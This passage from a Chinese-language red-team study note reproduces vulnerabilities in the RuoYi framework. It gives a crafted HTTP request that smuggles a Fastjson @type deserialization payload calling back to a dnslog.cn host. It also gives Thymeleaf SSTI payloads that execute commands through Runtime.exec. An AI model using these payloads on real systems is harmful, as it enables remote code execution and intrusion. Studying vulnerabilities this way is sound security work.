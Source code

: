   
参数，这块代码中全局搜索提示的缺少的内容的中文名称即可发现参数名称，填写上即可。  
  
最终简化后的数据包如下  

```
POST /tool/gen/edit HTTP/1.1
Host: 172.16.0.66
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Referer: http://172.16.0.66/tool/gen/edit/6
Cookie: JSESSIONID=c229803b-e147-4853-ae79-df7e04dcd338
X-Requested-With: XMLHttpRequest
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.16.0.66
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 3610

tableName=111111&tableComment=111111&className=111111&functionAuthor=111111&&columns[0].javaType=Long&columns[0].javaField=infoId&&tplCategory=tree&treeCode=111111&treeParentCode=111111&packageName=111111&moduleName=111111&businessName=111111&functionName=111111&params[treeCode]=111111&params[treeParentCode]=1&params[treeName]={&#34;@type&#34;:&#34;java.net.Inet4Address&#34;,&#34;val&#34;:&#34;11.hb4r0s.dnslog.cn&#34;}

```

# 0x08 SSTI模版注入漏洞  
#### 漏洞版本  
  
在4.7.1版本CacheController类中  
![[../S24-25赛季-大黑客之路/红队知识学习/assets/Y10 若依ruoyi/file-20250416135654610.png]]  
#### 漏洞复现  
  
模板注入漏洞payload：  
  
return内容可控：  

```
${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(&#34;calc&#34;).getInputStream()).next()}::.x

```

  
URL路径可控：  

```
${T(java.lang.Runtime).getRuntime().exec(&#34;touch test&#34;)}::.x

```

  
测试上述payload发现返回包返回500，具体情况是
```
Thymeleaf3.0.12
```
